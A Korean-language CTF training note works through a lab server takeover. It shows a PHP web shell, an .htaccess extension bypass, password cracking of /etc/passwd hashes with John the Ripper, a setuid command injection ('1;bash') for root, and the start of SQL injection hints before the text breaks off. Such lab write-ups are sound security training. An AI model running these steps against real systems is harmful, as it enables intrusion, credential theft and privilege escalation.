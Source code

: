 # CTF

25-4 CTF 개념 정리 - 시나리오

## 시나리오 1번

모 서버 장악 후, 내부에 저장된 정보를 확인하라.

**힌트**
```
1. 업로드 경로 확인
 - 임의의 파일 업로드 해보기

2. 웹 쉘 업로드 후 소스코드
   <?php system($_GET['cmd']); ?>

   Day2 파일 업로드 취약점 실습 내용
       - 1) 확장자를 우회) php -> phar, phtml 등등
       - 2) .htaccess(아파치 서버 설정 파일) 업로드 후 확장자 저장 설정 변경
             AddType application/x-httpd-php .abc .txt .xyz 등
       - vi .htaccess (.으로 시작되는 파일은 기본적으로 숨김처리 되어있음.
         view - show hidden files 체크 혹은 ls -al

3. 웹 쉘 업로드 성공 후 시스템 명령어로 flag 확인 (cat flag.php X, flag가 들어간 파일)
  - find / -name "flag*"

4.  /etc/passwd 파일
  - john the reaper (패스워드 크랙 툴)로 패스워드 알아내보기 : 크랙 하고자하는 문자열을 vi로 텍스트 파일로 저장.
  - john 파일명
리눅스 : /etc/passwd : 사용자 패스워드 정보를 가지고 있음.

5. setuid가 적용된 파일 찾기 : 인터넷 검색 활용
  - ssh 접속 명령어 : ssh id@ip
  - find / -perm ~
  - /bin/bash : 배시 쉘(터미널 쉘)로 변경

6. SetUID : 리눅스 특수 권한 파일을 실행 시에만 root 권한 획득
  - cat으로 실행시키지 말고, 해당 경로에서 ./프로그램 명으로 실행해보기
  - 커맨드 인젝션 - 권한 상승(LPE) - root 권한 획득 시, flag 값을 확인 가능
  - 명령어 이어서 쓸 때 ; 을 이용했던 것을 기억  ex) ls ; pwd
  - 특수 권한 SetUID: 파일을 실행할 때에만 파일 소유자 권한(root)을 획득할 수 있는 특수권한

7. root 계정으로 실행했던 명령어 로그 : bash history 확인

```

**kali linux 프록시 설정 끄는 법**

1. Web Browser
2. 우측 상단 햄버거 기호 클릭
3. Preferences
4. Proxy 검색
5. settings No Proxy로 바꾼 후 접속

**시나리오 흐름도**

1. 파일 업로드 기능 확인
2. 확장자 우회
3. 서버 장악
4. 계정 탈취
5. 공격 벡터 확인
6. 권한 상승
7. 정보 수집

### 1) 업로드가 가능한 경로

파일 업로드 시 유의미한 경로 발견
```
/uploads/~
```

***

### 2) 특정파일의 확장자 확인

.php .phtml .phar 확장자는 모두 차단되었음.

```
AddType application/x-httpd-php .abc .txt .xyz
```
상대 서버 /var/www/html 경로 내에 .htaccess 파일 전송 후

위 3개의 확장자 중 하나로 php 코드 전송

***

### 3) 웹 쉘 업로드 및 파일 확인

웹 쉘이 사용가능하고, find 명령어를 통해 파일의 위치를 확인.
```
find / -name flag*
```

***

### 4) 서버 특정 사용자 패스워드 획득

```
cat /etc/passwd
```
ems 계정의 해시 함수로 암호화된 비밀번호 획득

rockyou.txt.gz 파일 압축 해제
```
gzip -d rockyou.txt.gz
```
test.txt 파일에 복사한 후, 
```
john test.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
입력하여 
```
john --show test.txt
```
크래킹하여 패스워드 평문 확인

***

### 5) 서버 내 setuid 적용된 파일 확인

```
ssh ems@ip주소
```

SSH 접속 후, dumb shell을 bash shell로 전환

```
/bin/bash
```

쓸모없는 파일 제외하고 보기 기능
```
2>/dev/null
```

find 명령어로 setuid 적용된 파일 확인
```
find / -perm 4000 2>/dev/null
```

***

### 6) root 권한 획득

```
./Sub_pro
```

파일 실행시 Command Injection 공격 수행

```
1;bash
```

root 계정으로 bash shell 획득.

***
### 7) root 계정으로 실행했던 bash history 확인

root 디렉토리 하위의 .bash_history 파일 확인

```
cat /root/.bash_history
```

***

## 시나리오 2번

모 DB 서버 장악 후 유의미한 정보 확인

**힌트**
```
1. SQL Injection 취약점 찾기 or 1 = 1 ; # 등의 구문으로 취약점 찾기

2. ') UNION ~ ; # 구문 이용 SQL Injection (Day2 웹 UNION SQL Injection 문제와 구문은 동일)

```

**시나리오 흐름도**

1. 취약점 확인
2. DB 정보 확인
3. 데이터 탈취
4. 관리자 계정 탈취
5. 서버 장악
6. 정보 탈취
7. 취약점 확인
8. 서버 장악

### 1) 
